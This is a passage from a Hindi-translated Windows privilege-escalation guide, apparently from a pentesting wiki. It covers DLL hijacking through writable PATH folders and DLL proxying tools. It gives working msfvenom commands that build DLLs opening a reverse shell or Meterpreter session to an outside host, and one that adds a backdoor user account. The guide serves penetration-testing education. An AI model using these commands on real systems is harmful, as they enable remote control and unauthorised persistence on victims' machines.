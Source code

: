 {% content-ref url="writable-sys-path-+dll-hijacking-privesc.md" %}
[writable-sys-path-+dll-hijacking-privesc.md](writable-sys-path-+dll-hijacking-privesc.md)
{% endcontent-ref %}

### Automated tools

[**Winpeas** ](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)यह जांचेगा कि क्या आपके पास सिस्टम PATH के अंदर किसी भी फ़ोल्डर पर लिखने की अनुमति है।\
इस भेद्यता का पता लगाने के लिए अन्य दिलचस्प स्वचालित उपकरण हैं **PowerSploit functions**: _Find-ProcessDLLHijack_, _Find-PathDLLHijack_ और _Write-HijackDll._

### Example

यदि आप एक exploitable परिदृश्य पाते हैं, तो इसे सफलतापूर्वक शोषण करने के लिए सबसे महत्वपूर्ण चीजों में से एक होगा **एक dll बनाना जो कम से कम सभी कार्यों को निर्यात करता है जो executable इससे आयात करेगा**। किसी भी तरह, ध्यान दें कि Dll Hijacking उपयोगी है ताकि [मध्यम इंटीग्रिटी स्तर से उच्च **(UAC को बायपास करते हुए)**](../../authentication-credentials-uac-and-efs/#uac) या [**उच्च इंटीग्रिटी से SYSTEM**](../#from-high-integrity-to-system)**।** आप इस dll hijacking अध्ययन में **एक मान्य dll कैसे बनाएं** का उदाहरण पा सकते हैं जो निष्पादन के लिए dll hijacking पर केंद्रित है: [**https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows**](https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows)**।**\
इसके अलावा, **अगले अनुभाग** में आप कुछ **बुनियादी dll कोड** पा सकते हैं जो **टेम्पलेट** के रूप में या **निष्क्रिय कार्यों के साथ एक dll बनाने** के लिए उपयोगी हो सकते हैं।

## **Creating and compiling Dlls**

### **Dll Proxifying**

बुनियादी रूप से एक **Dll proxy** एक Dll है जो **लोड होने पर आपके दुर्भावनापूर्ण कोड को निष्पादित करने में सक्षम है** लेकिन साथ ही **प्रदर्शित** और **काम** करने के लिए **सभी कॉल को असली पुस्तकालय में रिले करके**।

उपकरण [**DLLirant**](https://github.com/redteamsocietegenerale/DLLirant) या [**Spartacus**](https://github.com/Accenture/Spartacus) के साथ आप वास्तव में **एक executable निर्दिष्ट कर सकते हैं और उस पुस्तकालय का चयन कर सकते हैं** जिसे आप proxify करना चाहते हैं और **एक proxified dll उत्पन्न कर सकते हैं** या **Dll निर्दिष्ट कर सकते हैं** और **एक proxified dll उत्पन्न कर सकते हैं**।

### **Meterpreter**

**Get rev shell (x64):**
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```
**एक मीटरप्रेटर प्राप्त करें (x86):**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```
**एक उपयोगकर्ता बनाएं (x86 मैंने x64 संस्करण नहीं देखा):**
```
msfvenom -p windows/adduser USER=privesc PASS=Attacker@123 -f dll -o msf.dll
```
### आपका खुद का
